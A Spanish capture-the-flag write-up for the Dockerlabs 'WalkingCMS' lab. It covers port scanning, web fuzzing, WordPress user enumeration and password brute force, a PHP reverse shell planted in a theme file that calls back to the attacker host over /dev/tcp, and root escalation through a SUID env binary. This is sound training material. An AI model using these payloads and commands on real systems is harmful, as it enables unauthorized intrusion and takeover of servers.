










# WriteUp: WalkingCMS &mdash; Dockerlabs
- **Dificultad:** Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0.2
- **Técnicas Clave:** Enumeración web, Fuerza bruta en Wordpress, Inyección de payloads, Escalada de privilegios mediante binarios SUID, Reverse shell

___
### Reconocimiento inicial
#### Escaneo de Puertos
Un escaneo inicial con Nmap identificó únicamente el servicio HTTP activo:

        $ nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn



- **80/tcp:** PHP CLI Server 5.5 o superior

#### Fuzzing Web
Dado que la raíz devolvía un código 200 con longitud estática para rutas inexistentes, se aplicó un filtro por tamaño con ```ffuf```:

        $ ffuf -u http://172.17.0.2/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 10701 -t 30



- **Ruta descubierta:** ```/wordpress``` (Código 301)

#### Auditoría del CMS
Con WPScan se enumeraron los usuarios registrados en la plataforma:

        $ wpscan --url http://172.17.0.2/wordpress/ -e u --random-user-agent



- **Usuario identificado:** ```mario```

___
### Acceso Inicial
#### Fuerza bruta de credenciales
Se utilizó WPScan contra el usuario descubierto mediante el diccionario ```rockyou.txt```:

        $ wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt -t 20 --random-user-agent



- **Credenciales válidas:** ```mario```:```love```

#### Ejecución de código arbitrario
1.  Inicio de sesión en ```http://172.17.0.2/wordpress/wp-login.php```
   
2. Acceso a ```Apariencia``` > ```Theme Code Editor```seleccionando el tema activo ```Twenty Twenty- Two```
3. Modificación del archivo ```index.php``` para incluir una reverse shell hacia el host atacante:

        <?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
        ?>
   

5. Puesta en escucha local en Netcat  ```sudo nc -nlvp 443``` y ejecución solicitando el recurso:

        $ curl -s http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php



- **Acceso obtenido:** Shell interactiva como ```www-data``` (```uid=33, gid=33```)

___
### Escalada de Privilegios
#### Enumeración de binarios con permisos especiales
Se rastrearon ejecutables con el bit SUID activo en el sistema:

        $ find / -perm -4000 2>/dev/null



- **Binario de interés:** ```/usr/bin/env``` con permisos SUID de ```root```

#### Explotación del binario
Siguiendo la referencia de abuso de ejecutables estándar (GTFOBins), se invocó un intérprete preservando los privilegios efectivos:



        $ /usr/bin/env /bin/sh -p


#### Validación de permisos:

        $ whoami && id
        # root
        # uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
